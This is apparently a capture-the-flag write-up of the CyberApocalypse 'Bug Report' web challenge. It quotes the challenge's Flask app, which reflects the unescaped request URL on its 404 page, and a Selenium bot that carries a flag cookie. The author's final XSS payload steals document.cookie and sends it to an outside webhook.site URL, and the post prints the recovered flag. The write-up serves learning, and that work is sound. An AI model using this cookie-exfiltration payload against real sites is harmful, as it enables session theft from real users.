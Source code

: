 ```yaml
---
title : CyberApocalypse Bug Report Writeup
tags : xss ssrf
---
```




# Challenge



![](/img/apocalypse/BugReport.png)



## Solution



we are also given the source file [here](/assets/web_bug_report.zip)


which had the following


![](/img/apocalypse/contents.png)


and the challenge 


![](/img/apocalypse/challenge1.png)


the two python scripts as follows


```python
from flask import Flask, request, render_template
from urllib.parse import unquote
from bot import visit_report

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/api/submit", methods=["POST"])
def submit():
    try:
        url = request.json.get("url")
        
        assert(url.startswith('http://') or url.startswith('https://'))
        visit_report(url)

        return {"success": 1, "message": "Thank you for your valuable submition!"}
    except:
        return {"failure": 1, "message": "Something went wrong."}


@app.errorhandler(404)
def page_not_found(error): 
    return "<h1>URL %s not found</h1><br/>" % unquote(request.url), 404

app.run(host="0.0.0.0", port=1337)
```

brief look at it, nothing much it just forwards our reported url to the bot


but bot.py was interesting


```python
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.support.ui import WebDriverWait

def visit_report(url):

    options = Options()
    options.add_argument('headless')
    options.add_argument('no-sandbox')
    options.add_argument('disable-dev-shm-usage')
    options.add_argument('disable-infobars')
    options.add_argument('disable-background-networking')
    options.add_argument('disable-default-apps')
    options.add_argument('disable-extensions')
    options.add_argument('disable-gpu')
    options.add_argument('disable-sync')
    options.add_argument('disable-translate')
    options.add_argument('hide-scrollbars')
    options.add_argument('metrics-recording-only')
    options.add_argument('mute-audio')
    options.add_argument('no-first-run')
    options.add_argument('dns-prefetch-disable')
    options.add_argument('safebrowsing-disable-auto-update')
    options.add_argument('media-cache-size=1')
    options.add_argument('disk-cache-size=1')
    options.add_argument('user-agent=BugHTB/1.0')
    browser = webdriver.Chrome('chromedriver', options=options, service_args=['--verbose', '--log-path=/tmp/chromedriver.log'])

    browser.get('http://127.0.0.1:1337/')

    browser.add_cookie({
        'name': 'flag',
        'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'
    })

    try:
        browser.get(url)
        WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
    except:
        pass
    finally:
        browser.quit()
```


```python
browser.get('http://127.0.0.1:1337/')

    browser.add_cookie({
        'name': 'flag',
        'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'`
```

 
 using this piece of code we can see that the bot visits the url sent and adds some cookies to it

 ...

 with that i decided to use ssrf and xss, 

 ssrf by using the ip 127.0.0.1:1337 and xss using [hookbin](https://hookbin.com) and an xss payload to steal the cookie


 my final payload was 


`https://127.0.0.1:1337/<script>document.write('<img src="https://webhook.site/e923b472-7002-4b02-902d-61f0eedebbe9/?c='%2bdocument.cookie%2b'" />');</script>`

as 

![](/img/apocalypse/bugreport.png)


and a few seconds later we got the flag leak on our hookbin instance


![](/img/apocalypse/flagforbug.png)



#### Flag : CHTB{th1s_1s_my_bug_r3p0rt}